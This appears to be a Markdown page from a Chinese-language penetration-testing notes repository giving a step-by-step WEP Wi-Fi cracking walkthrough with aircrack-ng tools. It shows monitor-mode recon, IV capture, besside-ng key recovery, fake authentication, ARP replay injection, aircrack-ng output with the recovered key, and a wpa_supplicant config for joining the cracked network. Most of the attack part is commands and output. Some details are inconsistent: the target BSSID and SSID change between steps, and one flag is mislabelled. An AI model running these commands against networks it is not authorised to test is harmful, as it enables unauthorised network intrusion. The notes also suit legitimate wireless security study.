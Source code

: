 WEP Crack
===
🔙 [MENU README](../README.md)


```
用 RC4 加密和初始化向量（initialization vector）的特性，在擷取大量封包後便有機會將金鑰破解
Aircrack-ng 是一款無線網路安全測試工具，支援多種攻擊演算法，可用於破解 WEP 和 WPA/WPA2 密碼
WPA/WPA2 的破解其實仰賴於字典攻擊
```
> https://then.tw/aircrack-ng-wep/

![](../_src/WEPCrack.png)
> 透過抓取IV完成破解

# Recon
```bash
# Monitor
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bga
```
```bash
# 找到WEP wifi
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSI                  MANUFACTURER
 F0:9F:C2:AA:19:29  -28      269     7478  278   1   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc
# #Data > 一直有在傳輸資料 > 差不多要大於 20000 筆會比較穩定
# CH    > 1
# ENC   > 加密方式為WEP
```
```bash
# Attack1
sudo airodump-ng wlan0mon --manufacturer --wps --band bga --channel 1

# Attack2
sudo airodump-ng wlan0mon --ivs -c1 -w capture -d F0:9F:C2:AA:19:29
# --ivs : 僅捕獲 IV (Initialization Vector) 數據包
# -w    : write file
# -d    : BSSID 
```
# Attack1 - besside-ng
```bash
sudo besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v

# Got key for wifi-old [11:bb:33:cd:55]
```
Change Conf
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
    wep_key0=11bb33cd55
    wep_tx_keyidx=0
}
```
Try Connect
```bash
# connect
sudo wpa_supplicant -D nl80211 -i wlan2 -c wpa_supplicant.conf
# get IP
sudo dhclient wlan2 -v

# http://192.168.19.1
```

# Attack2 - aireplay-ng
Deauthentication
```bash
# 對客戶端傳送連線中斷訊息，從而使客戶端重新發出授權請求
# 再擷取其請求的封包，裡面就會有我們破解金鑰所需要的 IVs
sudo aireplay-ng -1 0 -a F0:9F:C2:AA:19:29 wlan0mon

# -1: 代表 fake authentication
# 0: 重連時間，以秒為單位
```
ARP Request Replay Attack
```bash
# 程式會監聽 ARP 封包，然後將其重新回傳 AP
# 這就會讓 AP 使用新的 IVs 重傳 ARP 封包
sudo aireplay-ng -3 -b 10:27:F5:F3:E2:7F wlp2s0mon

# -3: 表示進行 WPA 握手攻擊
```
破解 WEP 金鑰
```bash
# 回到 airodump-ng 的畫面，當看到 #Data 欄位的數字足夠大時，就可以開始破解 WEP 金鑰
# 差不多要大於 20000 筆會比較穩定
aircrack-ng capture-01.ivs

# ===============================

KEY FOUND! [ 11:BB:33:CD:55 ] 

```